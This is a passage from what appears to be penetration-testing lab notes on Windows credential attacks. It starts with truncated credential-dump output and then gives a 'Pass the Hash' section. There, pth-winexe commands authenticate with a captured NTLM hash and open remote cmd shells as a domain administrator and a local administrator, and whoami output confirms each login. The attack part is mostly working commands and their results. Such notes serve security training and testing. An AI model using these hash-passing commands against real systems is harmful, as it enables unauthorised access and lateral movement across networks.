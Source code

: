 ```console
        ssp :
        credman :
        cloudap :

••• OUTPUT TRUNCATED •••
```

# 2. Pass the Hash

☝️ **Note**: LM hashes are not used from Windows 10 onwards, a string of 32 zeros can used to fill the LM hash portion of the pth-winexe command

## 2.1. pth-winexe
- Domain account

```console
┌──(kali㉿kali)-[~]
└─$ pth-winexe -U LAB/domainadmin%00000000000000000000000000000000:e19ccf75ee54e06b06a5907af13cef42 //192.168.17.151 cmd
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
lab\domainadmin

C:\Windows\system32>hostname
hostname
SVR
```

- Local account

```console
┌──(kali㉿kali)-[~]
└─$ pth-winexe -U administrator%00000000000000000000000000000000:e19ccf75ee54e06b06a5907af13cef42 //192.168.17.151 cmd
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
svr\administrator

C:\Windows\system32>hostname
hostname
SVR
```
